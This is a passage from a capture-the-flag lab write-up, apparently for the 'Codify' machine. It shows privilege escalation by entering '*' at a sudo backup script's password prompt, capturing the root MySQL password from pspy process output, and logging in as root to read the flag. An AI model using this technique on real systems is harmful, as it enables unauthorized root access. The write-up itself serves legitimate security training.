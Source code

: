 Now, in the second SSH session we run the script and provide `*` as password.

```shell
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root:
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
joshua@codify:~$
```

And we see the `mysqldump` command being triggered in the `pspy` output, together with the password in plain text.

```shell
2024/04/13 13:16:20 CMD: UID=0    PID=3371   | /bin/bash /opt/scripts/mysql-backup.sh
2024/04/13 13:16:20 CMD: UID=0    PID=3370   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -[OMITTED] sys
```

We try the password to login as root user.

```shell
joshua@codify:~$ su root
Password:
root@codify:/home/joshua#
```

Success, and we find the `root.txt` in `/root`

```shell
root@codify:/home/joshua# cd /root/
root@codify:~# ls -l
total 8
-rw-r----- 1 root root   33 Apr 13 10:51 root.txt
drwxr-xr-x 4 root root 4096 Sep 12  2023 scripts
root@codify:~# cat root.txt
[OMITTED]
```
